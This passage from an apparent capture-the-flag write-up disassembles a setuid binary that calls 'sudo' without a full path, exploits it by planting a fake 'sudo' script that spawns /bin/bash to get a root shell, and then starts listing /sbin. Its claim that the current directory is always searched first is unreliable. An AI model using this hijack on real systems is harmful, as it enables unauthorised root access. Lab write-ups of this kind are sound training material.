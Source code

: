 {% highlight c %}
[0x00001060]> pdf@main
/ (fcn) main 33
|   int main (int argc, char **argv, char **envp);
|           ; DATA XREF from entry0 @ 0x107d
|           0x00001145      55             push rbp
|           0x00001146      4889e5         mov rbp, rsp
|           0x00001149      bf00000000     mov edi, 0
|           0x0000114e      e8edfeffff     call sym.imp.setuid
|           0x00001153      488d3dae0e00.  lea rdi, qword str.sudo__i__u_root__root_ChainsawClub_dist_ChainsawClub_ChainsawClub ; 0x2008 ; "sudo -i -u root /root/ChainsawClub/dist/ChainsawClub/ChainsawClub" ; const char *string
|           0x0000115a      e8d1feffff     call sym.imp.system         ; int system(const char *string)
|           0x0000115f      b800000000     mov eax, 0
|           0x00001164      5d             pop rbp
\           0x00001165      c3             ret
{% endhighlight %}

Since `sudo` is lacking the full path of _/usr/bin/sudo_, we can make a custom file/script in the current directory called "_sudo_" – for which the program will run with root privileges; since the first path lookup is always the current working directory.

{% highlight console %}
$ cat << EOF > sudo && chmod +x ./sudo && ./ChainsawClub
#!/bin/bash
/bin/bash
EOF
{% endhighlight %}

## 5. Forensics

After we get a root shell, if we print the content of _root.txt_ we will get the following:

{% highlight console %}
# cat root.txt
Mine deeper to get rewarded with root coin (RTC)...
{% endhighlight %}

That means that our work is not done yet and that we need further enumeration within the box. One of the last resorts after we run out of options for low hanging fruits, is to check default binaries paths in case there is an interesting program installed or programmed in the machine.

I usually list items based in reverse modified date and time since the default installed binaries are usually the oldest and not much of an interest. In the _/sbin_ directory, we can notice an unusual program called `bmap`:

{% highlight console %}
# ls -ltr --group-directories-first /sbin
...
-rwxr-xr-x 1 root root     63824 Nov 30 23:01 bmap
...
{% endhighlight %}
